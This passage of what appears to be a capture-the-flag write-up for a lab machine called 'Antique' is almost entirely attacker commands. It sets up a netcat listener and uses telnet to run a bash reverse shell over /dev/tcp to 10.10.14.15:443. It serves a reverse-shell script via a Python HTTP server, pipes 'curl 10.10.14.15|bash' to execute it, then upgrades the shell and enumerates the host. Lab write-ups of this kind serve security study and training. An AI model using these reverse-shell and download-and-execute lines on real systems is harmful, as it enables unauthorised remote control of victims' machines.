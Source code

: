 > **Attacker Machine**:

```bash
nc -nlvp 443

telnet 10.10.11.107 23
  exec bash -i >& /dev/tcp/10.10.14.15/443 0>&1
```

> **index.html**

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.15/443 0>&1
```

```bash
nvim index.html
python3 -m http.server 80
nc -nlvp 443

telnet 10.10.11.107 23
  exec which curl
  exec curl 10.10.14.15|bash
```

> **Victime Machine**

```bash
script /dev/null -c bash        # :(

which python
which python3

python3 -c 'import pty;pty.spawn("/bin/sh")'      [CTRL^Z]
stty raw -echo;fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 29 columns 128

tty
bash

whoami
id
groups
hostname
hostname -I
ip a
```

<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_13.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_14.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_15.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/antique_writeup/Antique_16.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>